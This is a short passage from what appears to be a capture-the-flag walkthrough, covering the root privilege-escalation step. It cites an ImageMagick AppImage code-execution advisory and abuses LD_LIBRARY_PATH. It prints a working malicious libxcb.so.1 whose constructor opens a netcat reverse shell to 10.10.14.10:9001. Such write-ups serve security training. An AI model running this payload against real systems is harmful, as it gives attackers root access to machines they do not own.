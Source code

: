 [Arbitrary Code Execution in `AppImage` version `ImageMagick`
](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

### Root

We use the steps from the above PoC to exploit **ImageMagick** in conjunction with `LD_LIBRARY_PATH` abuse and obtain a reverse shell as the `root` user. First we create a shared library in the `/opt/app/static/assets/images` directory, which is where the scripts runs from:

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("busybox nc 10.10.14.10 9001 -e sh");
    exit(0);
}
EOF
```

After a while, we get a reverse shell as the `root` user:

![image.png](image%2013.png)
